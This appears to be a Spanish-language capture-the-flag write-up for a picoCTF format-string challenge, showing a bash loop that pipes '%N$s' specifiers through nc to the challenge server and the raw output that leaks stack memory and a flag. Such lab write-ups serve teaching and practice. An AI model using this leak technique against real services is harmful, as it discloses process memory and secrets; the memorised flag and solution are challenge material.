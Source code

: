 # Level 4
## Objetivo
Story telling class 1/2I'm just copying and pasting with this [program](https://artifacts.picoctf.net/c/91/vuln). What can go wrong? You can view source [here](https://artifacts.picoctf.net/c/91/vuln.c). And connect with it using:`nc saturn.picoctf.net 60135`
## Pistas
Format Strings
## Solucion
┌──(diego㉿kali)-[~]
└─$ for i in {0..999}; do echo "%$i\$s" | nc saturn.picoctf.net 60135; done
Tell me a story and then I'll tell you one >> Here's a story - 
%0$s
Tell me a story and then I'll tell you one >> Here's a story - 
%1$s
Tell me a story and then I'll tell you one >> Here's a story - 
���
Tell me a story and then I'll tell you one >> Here's a story - 
�ú,
Tell me a story and then I'll tell you one >> Here's a story - 
Tell me a story and then I'll tell you one >> Here's a story - 
Tell me a story and then I'll tell you one >> Here's a story - 
(null)
Tell me a story and then I'll tell you one >> Here's a story - 
/
Tell me a story and then I'll tell you one >> Here's a story - 

Tell me a story and then I'll tell you one >> Here's a story - 
Tell me a story and then I'll tell you one >> Here's a story - 
(null)
Tell me a story and then I'll tell you one >> Here's a story - 
�.
Tell me a story and then I'll tell you one >> Here's a story - 

Tell me a story and then I'll tell you one >> Here's a story - 
(null)
Tell me a story and then I'll tell you one >> Here's a story - 

Tell me a story and then I'll tell you one >> Here's a story - 
�������
Tell me a story and then I'll tell you one >> Here's a story - 
�(��g���g���g���g���g���g���g���h���
Tell me a story and then I'll tell you one >> Here's a story - 
Tell me a story and then I'll tell you one >> Here's a story - 
(null)
Tell me a story and then I'll tell you one >> Here's a story - 
setresgid
Tell me a story and then I'll tell you one >> Here's a story - 
����
Tell me a story and then I'll tell you one >> Here's a story - 
��e�

Tell me a story and then I'll tell you one >> Here's a story - 
setresgid
Tell me a story and then I'll tell you one >> Here's a story - 

Tell me a story and then I'll tell you one >> Here's a story - 
CTF{L34k1ng_Fl4g_0ff_St4ck_64bf08ef}
Tell me a story and then I'll tell you one >> Here's a story - 
����
Tell me a story and then I'll tell you one >> Here's a story - 
ii

## Notas Adicionales
|comando|descripcion|
|-------|-----------|
|xxx|xxx|
## Referencias
